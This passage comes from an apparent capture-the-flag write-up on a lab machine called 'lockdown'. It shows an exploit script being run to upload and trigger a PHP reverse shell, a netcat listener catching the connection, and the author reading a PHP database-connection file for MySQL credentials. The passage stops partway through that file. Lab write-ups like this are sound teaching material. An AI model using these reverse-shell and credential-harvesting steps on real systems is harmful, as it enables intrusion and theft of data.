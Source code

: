 So let's run the exploit!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ python3 exp.py contacttracer.thm 10.9.2.74 1337                                                                ─╯
(+) Uploading php reverse shell..
(+) File upload seems to have been successful!
(+) Now trying to trigger our shell..

(+) done!


-----------

[Terminal 2]


╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.51.197] 55832
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:17:55 up 43 min,  0 users,  load average: 0.00, 0.00, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (993): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We are in!

## Foothold - User

We are in, but we can't read the user's flag.

So searching for interesting files, I found a mysql connection's credentials!

We can use them to login to the `mysql` server!
```bash
www-data@lockdown:/tmp$ cat /var/www/html/classes/DBConnection.php 
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'Y[REDACTED]E';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
```